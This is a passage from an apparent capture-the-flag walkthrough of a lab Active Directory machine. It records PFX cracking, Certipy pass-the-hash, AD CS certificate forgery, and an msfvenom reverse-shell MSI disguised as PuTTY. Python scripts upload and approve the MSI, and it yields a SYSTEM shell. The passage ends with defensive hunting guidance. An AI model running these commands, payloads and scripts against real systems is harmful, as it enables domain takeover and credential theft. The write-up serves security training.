pfx2john InternalCodeSigning_02.pfx >> hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

```
Loaded 2 password hashes with 2 different salts (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 SSE2 4x])
[REDACTED-PFX-password]  (InternalCodeSigning_02.pfx)
[REDACTED-PFX-password]  (InternalCodeSigning_01.pfx)
2g 0:00:00:00 DONE
```



Both PFX files shared the **same** cracked password (another instance of password reuse - this time reuse of a certificate-protection password across two separate certs).

#### Extracting identities and NT hashes from the certificates via Certipy

Certipy's `auth` action can take a client-auth certificate + its password, request a Kerberos TGT with it, and - if the certificate maps to an account - retrieve that account's NT hash via [PKINIT]/UnPAC-the-hash.

**Certificate 1:**

```
certipy-ad auth -pfx InternalCodeSigning_01.pfx -password [REDACTED] -dc-ip 10.129.xx.xx
```

```
[*] Certificate identities:
[*]     SAN UPN: 'd.cooper@scaffold.htb'
[*] Using principal: 'd.cooper@scaffold.htb'
[*] Got TGT
[*] Got hash for 'd.cooper@scaffold.htb': aad3b435b51404eeaad3b435b51404ee:[REDACTED-NT-HASH]
```




This gives a fully usable NT hash for `d.cooper` - enough for pass-the-hash.

**Certificate 2:**

```
certipy-ad auth -pfx InternalCodeSigning_02.pfx -password [REDACTED] -dc-ip 10.129.xx.xx
```

```
[*] Certificate identities:
[*]     SAN UPN: 't.walker@scaffold.htb'
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERROR_CLIENT_NOT_TRUSTED(Reserved for PKINIT)
```






This certificate maps to `t.walker`, but PKINIT authentication fails with `KDC_ERROR_CLIENT_NOT_TRUSTED` - meaning this particular certificate/account combination isn't trusted for domain authentication this way (likely missing a proper mapping such as `NTAuthCertificates` trust, or the cert/account pairing itself isn't valid for logon). This path was a dead end; `d.cooper` became the usable identity going forward.

#### Confirming `d.cooper`'s group membership

From BloodHound, `d.cooper` is a member of **`Package_Developers`** and **`Remote Management Users`** - meaning WinRM (the *normal* kind, unlike `m.carter`'s DCOM-only path) is available for this account.

#### Logging in as `d.cooper` via WinRM (pass-the-hash)

```
evil-winrm -i 10.129.xx.xx -u d.cooper -H [REDACTED-NT-HASH]
```

```
*Evil-WinRM* PS C:\Users\d.cooper\Documents> whoami
scaffold\d.cooper
```




### Reverse-engineering the ScaffoldPortal application

#### Reading the app config

```
*Evil-WinRM* PS C:\Dev\Build\ScaffoldPortal> cat appsettings.json
```



Key parts of the config:

```json
{
  "ConnectionStrings": {
    "DefaultConnection": "Server=DC\\SQLEXPRESS;Database=ScaffoldPortal;Integrated Security=True;TrustServerCertificate=True;"
  },
  "Portal": {
    "Domain": "SCAFFOLD",
    "Roles": {
      "Developers": "SCAFFOLD\\Package_Developers",
      "Validators": "SCAFFOLD\\Package_Validators",
      "Admins":     "SCAFFOLD\\Deployment_Admins"
    },
    "FileStorage": {
      "IncomingRoot":   "C:\\Software\\Packages\\Incoming",
      "ReadyRoot":      "C:\\Software\\Packages\\Ready",
      "RejectedRoot":   "C:\\Software\\Packages\\Rejected",
      "ArchiveRoot":    "C:\\Software\\Packages\\Archive",
      "RepositoryRoot": "C:\\Software\\Repository",
      "MaxFileSizeMB": 7
    },
    "TrustedCert": {
      "SubjectMustContain": "CN=Package_Developers",
      "IssuerMustContain":  "scaffold-DC-CA"
    }
  }
}
```

**In plain terms:** this is a real .NET web application (`ScaffoldPortal`) that lets `Package_Developers` upload software packages (MSIs), lets `Package_Validators` review/approve them, and then some deployment engine automatically installs approved packages. The `TrustedCert` block tells us exactly what a package's Authenticode signing certificate needs to look like to be trusted by the deploy engine: **Subject must contain `CN=Package_Developers`**, and it must be **issued by `scaffold-DC-CA`** (this box's internal Certificate Authority).

#### Reading the validation/approval logic - finding the trust-boundary bug







```
*Evil-WinRM* PS C:\Dev\Build\ScaffoldPortal\Services> cat Services.cs
```

The relevant method, `ApprovePackageAsync`, does the following:

```csharp
public async Task ApprovePackageAsync(int packageId, string validatorUsername,
    string notes, ValidationChecklist checklist)
{
    var pkg = await _db.Packages.FindAsync(packageId)
        ?? throw new InvalidOperationException($"Package {packageId} not found.");

    // Security: only move from Incoming when validator explicitly approves
    var readyPath = await _fileStorage.MoveToReadyAsync(pkg.IncomingPath!, pkg.StoredFileName);

    pkg.Status = PackageStatus.Approved;
    pkg.ReadyPath = readyPath;
    pkg.ReviewedBy = validatorUsername;
    pkg.ReviewedAt = DateTime.UtcNow;
    pkg.ValidationNotes = notes;

    _db.ValidationActions.Add(new ValidationAction
    {
        PackageId = packageId,
        ValidatorUsername = validatorUsername,
        IsApproved = true,
        Notes = notes,
        ChecklistSignatureOk = checklist.SignatureOk ? "PASS" : "FAIL",
        ChecklistHashOk = checklist.HashOk ? "PASS" : "FAIL",
        ChecklistProductCodeOk = checklist.ProductCodeOk ? "PASS" : "FAIL",
        ChecklistMetadataOk = checklist.MetadataOk ? "PASS" : "FAIL"
    });

    await _db.SaveChangesAsync();
    ...
}
```




**The bug, explained simply:** The validation "checklist" (signature OK? hash OK? product code OK? metadata OK?) is just a set of checkboxes that get *recorded* - the server never actually re-verifies any of them itself. A validator (or anyone who can call this endpoint as a validator) can submit the approval with **every checkbox unchecked/false**, and the package still gets promoted straight to the "Ready" queue and installed. The *real* signature enforcement only happens later and separately, inside `Deploy-Engine.ps1`, which checks the MSI's actual Authenticode certificate Subject/Issuer against the `TrustedCert` config shown earlier. So: the validator-level UI/checklist is pure theater, but the underlying deploy engine really does check the cert. That means our exploitation path has to (a) get a validator to rubber-stamp our package (easy, since the checklist is fake), and (b) make sure the MSI is *actually* signed by a cert whose Subject really is `CN=Package_Developers` issued by `scaffold-DC-CA` (harder - this is the real gate).

#### Mapping out the roles

- **`Package_Developers`** (`d.cooper`, `t.walker`): can upload/submit packages.
- **`Package_Validators`** (only `m.chen`): the sole account able to approve packages.
- We already own `d.cooper` (developer). We now need to either become `m.chen` or otherwise get an approval through as `m.chen`, **and** need a certificate that legitimately maps to `CN=Package_Developers`, signed by the domain CA.


### Abusing AD CS (Certipy) to forge a compliant code-signing certificate

#### Enumerating certificate templates

```
certipy find -u d.cooper -hashes [REDACTED-NT-HASH] -dc-ip 10.129.xx.xx -stdout
```


Key findings on the CA (`scaffold-DC-CA`):

- **ESC8** flagged: Web Enrollment is enabled over HTTPS with Channel Binding (EPA) disabled - noted, but not the path actually used here.

Three relevant certificate templates:

| Template               | Client Auth | Enrollee Supplies Subject | Enrollment rights   |
|---------------------------|:------------:|:----------------------------:|-------------------|
| `PackagingCodeSigning`  | No          | **Yes**                    | `Domain Computers`   |
| `InternalCodeSigning`   | Yes         | No                          | `Package_Developers` |
| `DevCodeSigning`        | No          | No                          | `Package_Developers` |

**Why `PackagingCodeSigning` matters:** it is enrollable by any **Domain Computer** account, and critically has `Enrollee Supplies Subject = Yes` - meaning whoever enrolls gets to **choose their own certificate Subject name**, with no server-side validation tying it to their actual identity. Combine that with the fact that any authenticated user can normally join a limited number of computers to the domain (`MachineAccountQuota`), and the attack becomes: **create a fake computer account, then enroll it for a cert with `Subject=CN=Package_Developers`** - a subject that has nothing to do with what the computer account actually is, but which satisfies exactly what `Deploy-Engine.ps1` checks for.

#### First attempt to add a computer - blocked by quota

```
impacket-addcomputer scaffold.htb/d.cooper -hashes :[REDACTED-NT-HASH] -dc-ip 10.129.xx.xx \
  -computer-name 'evilpc$' -computer-pass '[REDACTED]'
```


```
[-] Authenticating account's machine account quota exceeded!
```

Checking the domain-wide `MachineAccountQuota` confirms why:

```
nxc ldap 10.129.xx.xx -u d.cooper -H [REDACTED-NT-HASH] -M maq
```



```
MAQ  10.129.xx.xx  389  DC  [*] Getting the MachineAccountQuota
MAQ  10.129.xx.xx  389  DC  MachineAccountQuota: 0
```

`MachineAccountQuota` is set to `0` domain-wide, so no user can add computer objects using the default self-service quota mechanism. A different route to create the computer object is required.

#### Finding a delegated OU where `Package_Developers` can create computer objects

Enumerating the OU structure:

```
nxc ldap 10.129.xx.xx -u d.cooper -H [REDACTED-NT-HASH] \
  --query "(objectClass=organizationalUnit)" "distinguishedName"
```

```
OU=Domain Controllers,DC=scaffold,DC=htb
OU=Scaffold,DC=scaffold,DC=htb
OU=Helpdesk,OU=Scaffold,DC=scaffold,DC=htb
OU=IT,OU=Scaffold,DC=scaffold,DC=htb
OU=Packaging_Team,OU=Scaffold,DC=scaffold,DC=htb
OU=Deploy_Operator,OU=Scaffold,DC=scaffold,DC=htb
OU=ManagedObjects,OU=Scaffold,DC=scaffold,DC=htb
OU=Users,OU=Scaffold,DC=scaffold,DC=htb
OU=Dev_Machines,OU=Packaging_Team,OU=Scaffold,DC=scaffold,DC=htb
```

`Dev_Machines` under `Packaging_Team` stands out as a likely place where `Package_Developers` were delegated rights to manage their own dev machines.

Reading its DACL confirms it:

```
impacket-dacledit -action read -target-dn 'OU=Dev_Machines,OU=Packaging_Team,OU=Scaffold,DC=scaffold,DC=htb' \
  scaffold.htb/d.cooper -hashes :[REDACTED-NT-HASH]
```


```
[*] ACE[2] info
    ACE Type      : ACCESS_ALLOWED_OBJECT_ACE
    ACE flags     : CONTAINER_INHERIT_ACE
    Access mask   : CreateChild (0x1)
    Object type (GUID) : Computer (bf967a86-0de6-11d0-a285-00aa003049e2)
    Trustee (SID) : Package_Developers (S-1-5-21-...-1104)
```

Confirmed: `Package_Developers` has `CreateChild` rights specifically for `Computer` objects under this OU - completely independent of, and not limited by, the domain-wide `MachineAccountQuota`.

#### Creating the rogue computer account under the delegated OU

```
bloodyad -d scaffold.htb -H dc.scaffold.htb -u d.cooper -p ':[REDACTED-NT-HASH]' \
  add computer 'evilpc' '[REDACTED]' --ou 'OU=Dev_Machines,OU=Packaging_Team,OU=Scaffold,DC=scaffold,DC=htb'
```




```
[+] evilpc$ created
```

#### Enrolling the rogue computer for a `PackagingCodeSigning` cert with a forged Subject

```
certipy-ad req -u 'evilpc$' -p '[REDACTED]' -dc-ip 10.129.xx.xx \
  -ca scaffold-DC-CA -template PackagingCodeSigning -subject 'CN=Package_Developers'
```

```
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Got certificate with subject: CN=Package_Developers
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Saving certificate and private key to 'evilpc.pfx'
```




We now hold a legitimate, CA-signed certificate whose Subject is exactly `CN=Package_Developers` - satisfying `Deploy-Engine.ps1`'s trust check - even though it was issued to a throwaway computer account we created ourselves.


### Building and signing a malicious MSI package

#### Generating a reverse-shell MSI payload

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.xx.xx LPORT=4444 -f msi -o evil.msi
```




```
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: evil.msi
```

#### Dressing up the MSI's metadata to look legitimate

Using `msibuild` to patch the MSI's internal Property table so it looks like a normal software package (e.g. a "PuTTY" installer) rather than a raw msfvenom artifact:

```
msibuild evil.msi \
  -q "UPDATE Property SET Value='PuTTY' WHERE Property='ProductName'" \
  -q "UPDATE Property SET Value='{ED41CD4E-33BB-400C-AB20-B09388DC83EF}' WHERE Property='ProductCode'" \
  -q "UPDATE Property SET Value='99.0.0' WHERE Property='ProductVersion'" \
  -q "UPDATE Property SET Value='PuTTY' WHERE Property='Manufacturer'"
```




#### Signing the MSI with the forged certificate

```
osslsigncode sign -pkcs12 evilpc.pfx -pass '' -n 'PuTTY' -i 'https://scaffold.htb' \
  -h sha256 -in evil.msi -out evil_signed.msi
```





```
Succeeded
```

#### Verifying the signature actually satisfies the trust requirement

From an existing WinRM shell as `d.cooper`, uploading and checking the signature with native PowerShell:

```
*Evil-WinRM* PS C:\Users\d.cooper\Documents> Get-AuthenticodeSignature ./evil_signed.msi | Format-List *
```





```
SignerCertificate : [Subject]
                       CN=Package_Developers

                    [Issuer]
                       CN=scaffold-DC-CA, DC=scaffold, DC=htb

Status            : Valid
StatusMessage     : Signature verified.
```

This is exactly the Subject/Issuer pair `Deploy-Engine.ps1` was configured to trust - the forged certificate chain checks out.


### Uploading and approving the malicious package through the portal's web API

Since `ScaffoldPortal` uses Windows/NTLM authentication and the flows (upload, review, approve) are simple form posts with an anti-forgery (CSRF) token, small Python scripts were written to automate the browser workflow using `d.cooper`'s NT hash (pass-the-hash over NTLM to the web app) for the upload, and `m.chen`'s hash for the approval.

##### Interesting discovery: `m.chen` shares the same NT hash as `d.cooper`

While preparing the approval step, it turned out - with help from the community - that `m.chen`'s NT hash is **identical** to `d.cooper`'s previously-obtained hash. This was verified directly:

```
nxc smb 10.129.xx.xx -u m.chen -H [REDACTED-NT-HASH]
```

```
SMB  10.129.xx.xx  445  DC  [+] scaffold.htb\m.chen:[REDACTED-NT-HASH]
```




The `[+]` confirms it: this is **password reuse across two entirely different named accounts** (`d.cooper` the developer and `m.chen` the validator) - both using the same underlying password/NT hash, most likely because both were seeded with the same default/onboarding credential and never individually rotated. This directly hands us the "approver" identity we needed without any extra cracking.

#### Uploading the malicious MSI as `d.cooper`

```python
#!/usr/bin/python3

import requests
import urllib3
from bs4 import BeautifulSoup
from requests_ntlm import HttpNtlmAuth

# Disable HTTPS certificate warnings
urllib3.disable_warnings(
    urllib3.exceptions.InsecureRequestWarning
)

# Configuration
HASH = "aad3b435b51404eeaad3b435b51404ee:[REDACTED-NT-HASH]"

URL = "https://portal.scaffold.htb/Package/Upload"

USERNAME = r"SCAFFOLD\d.cooper"

MSI_FILE = "evil_signed.msi"

# Create session
s = requests.Session()
s.verify = False

# NTLM authentication
s.auth = HttpNtlmAuth(USERNAME, HASH)

try:
    # Step 1: Get upload page
    print("[*] Requesting upload page...")

    r = s.get(URL)

    print("[+] GET status:", r.status_code)
    print("[+] GET URL:", r.url)

    r.raise_for_status()

    # Step 2: Extract CSRF token
    soup = BeautifulSoup(r.text, "html.parser")

    token_input = soup.find(
        "input",
        {"name": "__RequestVerificationToken"}
    )

    if not token_input:
        print("[-] CSRF token not found!")
        exit(1)

    token = token_input["value"]

    print("[+] CSRF token obtained")

    # Step 3: Open MSI
    print(f"[*] Opening {MSI_FILE}...")

    with open(MSI_FILE, "rb") as f:

        # Step 4: Upload MSI
        print("[*] Uploading MSI...")

        r = s.post(
            URL,
            data={
                "__RequestVerificationToken": token
            },
            files={
                "file": (
                    "putty-64bit-0.84-installer_signed.msi",
                    f,
                    "application/x-msi"
                )
            },
            allow_redirects=False
        )

    # Step 5: Print response
    print("\n========== RESULT ==========")

    print("[+] Upload status:", r.status_code)

    print("[+] Location:", r.headers.get("Location"))

    print("[+] Response headers:")
    for key, value in r.headers.items():
        print(f"    {key}: {value}")

    print("\n[+] Response body:")
    print(r.text[:1000])

    print("\n============================")

except FileNotFoundError:
    print(f"[-] File not found: {MSI_FILE}")
    print("    Make sure evil_signed.msi is in the same directory.")

except requests.exceptions.RequestException as e:
    print(f"[-] Request failed: {e}")

except Exception as e:
    print(f"[-] Error: {e}")

```

Running it:

```
python3 upload_msi.py
```




```
[*] Requesting upload page...
[+] GET status: 200
[+] CSRF token obtained
[*] Uploading MSI...

========== RESULT ==========
[+] Upload status: 302
[+] Location: /Package/Details/9
```




A `302` redirect to `/Package/Details/9` confirms the package was accepted and now exists as package ID `9` in the system, sitting in the "Incoming" queue awaiting validation.

#### Approving the package 

As `m.chen` (using the checklist-bypass bug)

```python
#!/usr/bin/python3

import requests
import urllib3
from bs4 import BeautifulSoup
from requests_ntlm import HttpNtlmAuth

# Disable HTTPS certificate warnings
urllib3.disable_warnings(
    urllib3.exceptions.InsecureRequestWarning
)

# Configuration
HASH = "aad3b435b51404eeaad3b435b51404ee:[REDACTED-NT-HASH]"

USERNAME = r"SCAFFOLD\m.chen"

REVIEW_URL = "https://portal.scaffold.htb/Validation/Review/9"

APPROVE_URL = "https://portal.scaffold.htb/Validation/Approve/9"

# Create session
s = requests.Session()
s.verify = False

# NTLM authentication
s.auth = HttpNtlmAuth(USERNAME, HASH)

try:
    # Step 1: GET review page
    print("[*] Requesting validation review page...")

    r = s.get(REVIEW_URL)

    print("[+] GET status:", r.status_code)
    print("[+] GET URL:", r.url)

    r.raise_for_status()

    # Step 2: Extract antiforgery token
    soup = BeautifulSoup(r.text, "html.parser")

    token_input = soup.find(
        "input",
        {"name": "__RequestVerificationToken"}
    )

    if not token_input:
        print("[-] Antiforgery token not found!")
        exit(1)

    token = token_input["value"]

    print("[+] Antiforgery token obtained")

    # Step 3: POST approval
    print("[*] Submitting approval request...")

    data = {
        "__RequestVerificationToken": token,
        "id": "9",
        "notes": "Signature and hash verified.",
        "signatureOk": "true",
        "hashOk": "true",
        "productCodeOk": "true",
        "metadataOk": "true",
    }

    r = s.post(
        APPROVE_URL,
        data=data,
        allow_redirects=False
    )

    # Step 4: Print response
    print("\n========== RESULT ==========")

    print("[+] Approval status:", r.status_code)

    print("[+] Location:", r.headers.get("Location"))

    print("[+] Response headers:")

    for key, value in r.headers.items():
        print(f"    {key}: {value}")

    print("\n[+] Response body:")
    print(r.text[:1000])

    print("\n============================")

except requests.exceptions.RequestException as e:
    print(f"[-] Request failed: {e}")

except Exception as e:
    print(f"[-] Error: {e}")
```

Running it:

```
python3 approve_msi.py
```

```
[*] Requesting validation review page...
[+] GET status: 200
[+] Antiforgery token obtained
[*] Submitting approval request...

========== RESULT ==========
[+] Approval status: 302
[+] Location: /Validation
```





The `302` redirect back to `/Validation` confirms the approval succeeded - package `9` is now marked **Approved** and moved into the "Ready" folder that the deploy engine watches.

> Note: The specific package ID (`9`, `/Package/Details/9`, `/Validation/Review/9`) will vary depending on how many times a package has been uploaded in a given run - always confirm the actual ID returned by the upload step before running the approval script.


### SYSTEM shell via the automatic deploy engine

The portal's backing infrastructure runs a scheduled script, `Deploy-Engine.ps1`, which periodically scans the "Ready" package folder, re-checks the Authenticode signature against the `TrustedCert` config (Subject contains `CN=Package_Developers`, Issuer contains `scaffold-DC-CA` - both of which our forged cert satisfies), and if it passes, **silently installs the MSI as `NT AUTHORITY\SYSTEM`**.

Since our `evil_signed.msi` is really a `msfvenom` reverse-shell payload, running it as SYSTEM triggers a callback to our listener:

```
nc -nlvp 4444
```

```
listening on [any] 4444 ...
connect to [10.10.xx.xx] from (UNKNOWN) [10.129.xx.xx] 50465
Microsoft Windows [Version 10.0.20348.587]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Full SYSTEM access on the Domain Controller.

#### Grabbing the root flag

```
C:\Users\Administrator\Desktop>type root.txt
[REDACTED]
```



### Summary

1. **Recon:** `nmap`/`rustscan` against `10.129.xx.xx` show a full AD Domain Controller (Kerberos, LDAP, SMB, GC, WinRM) plus a custom IIS site bound to `portal.scaffold.htb`, and two unusual ports 9800/9801.
2. **Validate given creds:** `j.harris`'s credentials work over SMB; enumerated shares reveal an MDT/WDS deployment environment (`DeploymentShare$`, `REMINST`, `Y$`).
3. **Web portal:** Logging into `portal.scaffold.htb` as `j.harris` only yields a restricted guest dashboard for a custom "ScaffoldPortal" package-management app.
4. **LDAP description leak:** `nxc ldap ... -M get-desc-users` reveals a temp password for `m.carter` sitting in the account's `description` field - password is correct but the account is disabled.
5. **User enumeration:** `impacket-lookupsid` RID-cycles the domain to build a full username list and reveals telling group names (`Package_Developers`, `Deploy_Operators`, `Endpoint Remote Management`, `Quarantined_Accounts`, `Identity_Operations`).
6. **Extra ports found:** `rustscan` reveals MDT's MonitorService on 9800 (SOAP, `MDTMonitorEvent`) and 9801 (OData, `MDTMonitorData`), both unauthenticated.
7. **XXE exploitation:** Using a public XXE exploit against the MDT MonitorService (`https://github.com/garrettfoster13/wtftp`, and a simplified reimplementation `https://github.com/manbahadurthapa1248/MDT-XXE-exploit`), remotely read `CustomSettings.ini` and `Bootstrap.ini` off the deployment share - leaking plaintext credentials for `svc_deploy`/`DomainAdmin` and `svc_mdt`.
8. **Password spraying with proof:** Systematically sprayed each leaked password against all known users, recording NetExec's exact status codes; `svc_mdt`'s password is confirmed correct but the account is expired; a second `svc_deploy` password variant is confirmed working for **both** `svc_deploy` and `r.wilson` (password reuse, proven via `[+]` login success on both).
9. **ACL abuse chain to enable `m.carter`:**
   - `r.wilson` adds himself to `Helpdesk operator` (which has `GenericWrite` on `m.carter`).
   - `userAccountControl` on `m.carter` is set to `66048`, enabling the account (confirmed via status code changing from `STATUS_ACCOUNT_DISABLED` to `STATUS_LOGON_TYPE_NOT_GRANTED`).
   - `svc_deploy` (via `Identity_Operations`' `WriteProperty` rights, confirmed with `impacket-dacledit`) flips `Quarantined_Accounts`'s `groupType` to a Distribution group, lifting the quarantine GPO's effect on `m.carter` (confirmed via successful SMB login).
   - The same `groupType` trick converts `IT` into a Security/Universal group so it can be a meaningful nested membership.
   - `m.carter` adds himself to the custom `Endpoint Remote Management` group.
10. **DCOM instead of WinRM:** `Endpoint Remote Management` doesn't grant WinRM rights, so `impacket-dcomexec` (MMC20 object over DCOM/RPC) is used instead - verified with an ICMP ping capture, then used to launch a PowerShell reverse shell as `m.carter`. **User flag captured.**
11. **Certificate theft & cracking:** Two `.pfx` code-signing certs found under `C:\Dev\DevCerts`, exfiltrated, and cracked with `pfx2john` + `john`/rockyou (both share the same cracked password - more reuse).
12. **Certipy identity extraction:** One PFX maps to `d.cooper` and successfully authenticates via PKINIT, yielding `d.cooper`'s NT hash; the other maps to `t.walker` but fails PKINIT trust checks and is abandoned.
13. **WinRM as `d.cooper`:** Pass-the-hash login via `evil-winrm`; `d.cooper` is a `Package_Developer` with real WinRM rights.
14. **Source-code review of ScaffoldPortal:** `appsettings.json` reveals the deploy engine's certificate trust requirement (`Subject` must contain `CN=Package_Developers`, `Issuer` must contain `scaffold-DC-CA`); `Services.cs` reveals that the human validation "checklist" is never actually re-verified server-side - only the deploy engine's own signature check is real.
15. **AD CS abuse (ESC-style template misuse):** `certipy find` reveals the `PackagingCodeSigning` template lets **any Domain Computer** enroll with a **caller-supplied Subject**. Domain-wide `MachineAccountQuota` is `0`, blocking the default self-service computer-creation route - but a delegated OU (`Dev_Machines`) grants `Package_Developers` direct `CreateChild` rights on Computer objects (confirmed via `dacledit`), bypassing the quota entirely.
16. **Forge the trusted certificate:** A rogue computer account (`evilpc$`) is created under the delegated OU and used to enroll for a `PackagingCodeSigning` certificate with `Subject=CN=Package_Developers` - a subject with no real connection to the computer account, but which exactly matches what the deploy engine trusts.
17. **Weaponized MSI:** `msfvenom` builds a reverse-shell MSI, `msibuild` dresses up its metadata to look like a normal app ("PuTTY"), and `osslsigncode` signs it with the forged certificate - `Get-AuthenticodeSignature` confirms the signature is valid and matches the trusted Subject/Issuer.
18. **Upload & approve via the web app's own API:** A Python/NTLM script uploads the malicious MSI as `d.cooper`. A second script approves it as `m.chen` - discovered, with community help, to share the **exact same NT hash** as `d.cooper` (yet more password/credential reuse), so no additional cracking was needed to act as the validator. The approval submits the fake "all checks passed" checklist, which the server accepts without re-verifying anything (per the bug found in step 14).
19. **Automatic SYSTEM execution:** The scheduled `Deploy-Engine.ps1` picks up the newly "Approved" package, validates only the Authenticode certificate (which passes, since it's the forged-but-legitimately-CA-issued cert), and silently installs it as `NT AUTHORITY\SYSTEM`, triggering the reverse shell payload back to the attacker's listener. **Root flag captured.**


## Defensive Operations

#### Strategic Overview

* **1.1 Definition:** A multi-stage Active Directory compromise leveraging an unauthenticated XXE vulnerability in a legacy deployment service for credential exfiltration, attribute-level ACL abuse to defeat account quarantine controls, DCOM-based lateral movement to evade WinRM restrictions, and AD Certificate Services (AD CS) template misconfiguration to forge a trusted code-signing identity that a custom software-deployment pipeline blindly executes as `NT AUTHORITY\SYSTEM`.
* **1.2 Impact:** Total Domain Compromise (Tier 0 Takeover), achieved not through a single high-severity exploit but through the automatic, unattended execution of attacker-supplied code by the organization's own internal software deployment engine.
* **1.3 The Scenario:** An adversary with a low-privileged domain account discovers a legacy Microsoft Deployment Toolkit (MDT) MonitorService exposed without authentication on non-standard ports. An XXE flaw in this service is abused to remotely read the deployment share's configuration files, leaking plaintext service-account credentials. From there, the adversary chains a series of individually small, attribute-level Active Directory ACL grants (`GenericWrite`, `WriteProperty` on `groupType`) to enable a disabled/quarantined account and route around its restrictive group-based logon policy. That foothold pivots via DCOM (since the account's custom "remote management" group grants DCOM but not WinRM rights) to obtain code execution and locate developer code-signing certificates on disk. One recovered certificate identity is then used, alongside an AD CS template that permits any Domain Computer to enroll with an attacker-chosen Subject, to forge a certificate that impersonates a trusted internal signing identity - without ever needing that identity's real private key. The forged certificate signs a malicious MSI, which is uploaded and "approved" through an internal packaging portal whose validation logic is client-side theater, and the deployment engine installs it as SYSTEM.

#### System Architecture

* **2.1 Protocol Environment:** Active Directory Domain Services (AD DS), LDAP/LDAPS, SMB, Kerberos, Microsoft RPC/DCOM, WS-Man/WinRM, WCF/SOAP (MDT MonitorService), HTTP/HTTPS (custom .NET web portal), AD Certificate Services (MS-WCCE/RPC enrollment), Authenticode/PKCS#12.
* **2.2 Attack Logic Flow:**

> [MDT MonitorService XXE] -> [CustomSettings.ini / Bootstrap.ini Credential Leak] -> [Password Reuse Confirmation] -> [ACL Abuse: userAccountControl + groupType] -> [Quarantine Bypass] -> [DCOM Lateral Movement] -> [Code-Signing Cert Theft & Cracking] -> [Certipy PKINIT -> NT Hash] -> [AD CS Template Misconfiguration Abuse] -> [Forged Trusted Certificate] -> [Malicious MSI Signed + Rubber-Stamped via Portal] -> [Deploy Engine SYSTEM Execution] -> [Domain Takeover]

* **2.3 Theoretical Analogy:** The certificate-forgery step operates like a facilities badge system that trusts any badge printed on the correct card stock, regardless of who requested it. A junior contractor (a throwaway computer account) is allowed to print their own badge and choose their own printed name (`Enrollee Supplies Subject = Yes`). By printing a badge that reads "Executive Security Team" (`CN=Package_Developers`) using the building's own official badge printer (the internal CA), the contractor produces a badge that every door reader (the deploy engine's trust check) accepts as genuine - because the reader only checks that the badge *looks* official, not that the name on it matches the person holding it.

#### Attack Vector

| Attribute | Technical Details |
| :------------------------------ | :------------------------------------------------------------------------- |
| **Primary Identifiers** | `userAccountControl`<br>`groupType`<br>`msPKI-Certificate-Name-Flag` (Enrollee Supplies Subject)<br>`TrustedCert.SubjectMustContain` / `IssuerMustContain` (application config)<br>`ValidationChecklist` (client-supplied, server-trusted booleans) |
| **Critical Vulnerability** | **Unauthenticated XXE** in the MDT MonitorService (WCF `GetSettings`/`PostEvent`) permitting remote file read of deployment-share configuration.<br><br>**ACL tiering violation**: attribute-level `GenericWrite`/`WriteProperty` rights on `userAccountControl` and `groupType` delegated to non-Tier-0 accounts, allowing account re-enablement and security-group defanging.<br><br>**AD CS template misconfiguration**: a broadly-enrollable template with `Enrollee Supplies Subject = Yes`, combined with delegated `CreateChild` (Computer) rights on an OU that bypass domain-wide `MachineAccountQuota`.<br><br>**Trust-boundary/logic flaw**: a human-facing approval workflow whose checklist is recorded but never re-verified server-side, while the *only* real enforcement (the deploy engine's Authenticode Subject/Issuer check) trusts values that are themselves forgeable via the AD CS flaw above. |
| **Offensive Action** | 1. Abuse the MDT MonitorService XXE to exfiltrate `CustomSettings.ini`/`Bootstrap.ini` and recover service-account credentials.<br><br>2. Chain `GenericWrite`/`WriteProperty` grants to flip `userAccountControl` (enable a disabled account) and `groupType` (convert a quarantine/restriction group to Distribution, neutralizing its GPO effect).<br><br>3. Use DCOM (`MMC20.Application`) instead of WinRM to obtain code execution where the compromised account's custom group only grants DCOM rights.<br><br>4. Enroll a rogue computer account under a delegated OU for an `Enrollee Supplies Subject` certificate template, forging a Subject that matches the deploy engine's trusted-signer requirement.<br><br>5. Sign a malicious MSI with the forged certificate, submit it through the portal's own upload/approve API using stolen NTLM hashes, and let the automatic deploy engine install it as SYSTEM. |

#### Prerequisites

* **Access Level:** A standard, low-privileged domain account for initial SMB/LDAP recon and reachability to the MDT MonitorService ports; no authentication is required to reach the XXE-vulnerable endpoints themselves.
* **Connectivity:** TCP 445 (SMB), TCP 389/636/3268/3269 (LDAP/GC), TCP 88 (Kerberos), TCP 9800/9801 (MDT MonitorService - SOAP + OData, unauthenticated), TCP 135/RPC dynamic ports (DCOM), TCP 443 (custom web portal), AD CS RPC enrollment endpoints.
* **Target State:** MDT MonitorService reachable without authentication and running a build vulnerable to the XXE issue; attribute-level ACL delegations (`GenericWrite`, `WriteProperty` on `groupType`) granted more broadly than intended; at least one certificate template configured with `Enrollee Supplies Subject = Yes` and broad enrollment rights; an OU with delegated `CreateChild` (Computer) rights independent of `MachineAccountQuota`; an internal deployment pipeline that trusts Authenticode Subject/Issuer strings as its sole validation gate.

#### Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:** Because this chain avoids any single loud exploit, adversaries will instead generate a sequence of individually-legitimate-looking directory attribute modifications, unusual egress from a Domain Controller, and certificate-issuance events where the requesting identity does not match the issued identity. Detection should focus on *behavioral* anomalies in AD object state and CA issuance, not on signature-based exploit detection for the XXE itself.
* **Behavioral Outliers:** A Domain Controller (or the service account hosting the MDT MonitorService) initiating **outbound** connections to arbitrary external hosts is highly anomalous - DCs should almost never originate unsolicited egress traffic. A non-Tier-0 account writing to `groupType` on any security group is exceptionally rare outside of a documented AD restructuring change window. A certificate issued by the internal CA whose Subject Common Name does not correspond to the identity of the account that requested it is one of the highest-fidelity indicators of AD CS abuse available. A service account (`msiexec.exe`, a deployment engine's automation account) spawning an interactive shell process is never expected behavior for a package-installation workflow.
* **Toxic Combinations:**
  * Unauthenticated legacy service endpoints (MDT MonitorService) + a Domain Controller with unrestricted outbound firewall rules.
  * `Enrollee Supplies Subject = Yes` certificate templates + broad (`Domain Computers`/`Authenticated Users`) enrollment rights.
  * Delegated `CreateChild` (Computer) rights on an OU + a domain-wide `MachineAccountQuota` of `0` (the quota restriction creates a false sense that self-service computer creation is fully blocked, while delegated OU rights bypass it entirely).
  * A human-reviewed "approval" UI + a backend that never re-validates what the UI claims to have checked.

